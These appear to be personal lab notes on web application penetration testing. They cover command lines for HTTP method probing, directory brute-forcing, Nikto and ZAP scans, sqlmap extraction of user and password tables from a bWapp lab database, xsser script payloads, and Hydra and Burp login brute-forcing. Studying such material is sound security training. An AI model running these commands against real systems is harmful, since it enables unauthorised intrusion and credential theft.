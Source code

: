 
##### Web and HTTP protocol (enumerate HTTP methods)

HTTP Methods 
- **GET**
- **POST**
- **PUT**
- **HEAD**
- **DELETE**
- **PATCH**
- **OPTIONS**
- **CONNECT**
- **TRACK**
  
- Use inspector to inspect logon page (method and where it is send)
- dirb for directory busting (find hidden direcotries):
	- `dirb http://ip `
- Check what options are possible for the webfiles/directories found with dir: 
	- `curl -X GET ip `
	- `curl -I ip ` (HEAD)
	- `curl -X OPTIONS ip -v`
	- `curl -X PUT ip `
	- `curl -X OPTIONS ip/loging.php -v `
	- `curl -X POST ip `
	- `curl -X HEAD ip`
	- `curl -X POSt ip/login.php -d "name=john&password=password" -v` 
	- `curl -X OPTIONS ip/page_of_interest -v `
	- `curl -XPUT ip `
	- `curl -XDELETE ip/uploads/file.txt`

The Webdav module is enabled on the Apache Server, Webdav module allows file upload via PUT method
PUT method. ![[Pasted image 20230928141102.png]]

If PUT is possible: `curl ip/uploads/ --upload-file file.txt`

-- 

To use Burp to find the HTTP methods allowd: 
send request to repeater and change the method in the request:
![[Pasted image 20230928141257.png]]
![[Pasted image 20230928141341.png]]

##### Directory enumeration with GoBuster 


- similar to dirb 
- `gobuster`  (manual)
- `gobuster dir -u http://ip -w /usr/share/wordlist/dirb/common.txt `
- `gobuster dir -u http://ip -w /usr/share/wordlist/dirb/common.txt -b 403,404 ` (filter out 403 and 404)
- scan for specific file extensions: .php, .xml, .txt: `gobuster dir -u http://192.156.207.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r``



##### Directory Enumeration with Burp Suite 

- turn on proxyfox 
- Action - send to intruder 
- check target 
- intruder (positions)
- change get request ` Get /$name$` ![[Pasted image 20230926152712.png]] 
	- Sniper (directly) Attack type are different 
- Payloads
	- Add: data, passwords, phphmyadmin, js, images, 
	- load wordlist from kali: wordlists/dirb/common




GET /§name§ HTTP/1.0
Cookie: c=cval
Content-Length: 17


##### Scanning Web Application with ZAProxy 

- run nmap scan 
open owasp zap 
click around on website to collect data 
![[Pasted image 20230926180039.png]]

Select form based authentication
![[Pasted image 20230926180141.png]]
Make sure user mode is enabled 
Use the spider to do enumaration 

##### Scanning web Applications with Nikto 

- `ping` and `nmap` for port 80 
- `nikto` 
- `nikto -Help `
- `nikto -h http://ip `
- `nikto -h http://ip/full_url -Tuning 5 -Display V
- `nikto -h http://ip/full_url -Tuning 5 -Display V -o nikto-results.hthml -Format html' 


##### Passive Crawling with Burp Suite 

- pull up http server with webbrowser 
- turn on burpsuite with foxyproxy
- check http history 
- target shows tree of site map 
- add the ip you test to the scope 


##### SQL Injection with SQLMap 
- run `nmap` 
- turn on foxyproxy 
- turn on burp - intercept on
- `sqlmap` 
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title `
![[Pasted image 20230926210205.png]]
- get the request in repeater so we can change it and send it again: 
![[Pasted image 20230926210610.png]]
- - `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp --tables `
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp -T users --columns `
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp -T users -C admin,passwords,email`



Generate new payloads - use payloads in repeater in burp 
- `sqlmap -r request -p title ` 




##### XSS Attack with XSSer

- visit 80 in browser 
- turn on foxyproxy 
- `xxser`
- `xsser -url "http://ip/index.php?page=dns-lookup.php" -p "payload" --auto ` (change payload to payload)
	- add custom script with: `--Fp "<script>alert(1)</script>"`
- scan page: `xsser -url "http://ip/index.php?PAGE_OF_INTREST"
**CHANGE YOU VARIABLE WITH XSS**
![[Pasted image 20230926212948.png]]










##### Authenticated XSS Attack with XSSer 

We need a cookie to try authenticated session 
Script is interpreted 
![[Pasted image 20230926213430.png]]

Use xsser to find out if its vulnerable for XSS
- `xsser` 
- `xsser -url "http://ip/path?firstanem=XSS&etc" --cookie"security_level=0; PHPSESSID=cookie" `
add `<script>alert(1)</script>`


##### Attacking HTTP Login From with Hydra 

- `hydra` 
  view page source to see what the post request for login is asking for and add that to the hydra command
- `hydra -L users_list -P passwords_list target_ip http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:reply_that_hydra_should_belookingfor




##### Attacking Basic Auth with Burp Suite 


- visti: `http://ip/basic`
![[Pasted image 20230926214941.png]]
Everything will be encrypted in base64 
![[Pasted image 20230926215015.png]]
add payload with wordlist - payload processing: add prefix admin: - encoded base 64 - 
decode in burp 
(smartdecode)
![[Pasted image 20230926215259.png]]



##### Attacking HTTP Login From ZAProxy 

- open owasp zap in kali (zaproxy)
- manual explore enter the ip and launch browser 
- try a login to capture the traffic 
- use the POST request with the login - right click and fuzz 
- load wordlist (select the username or password and Add)
- start fuzzer 


/fil
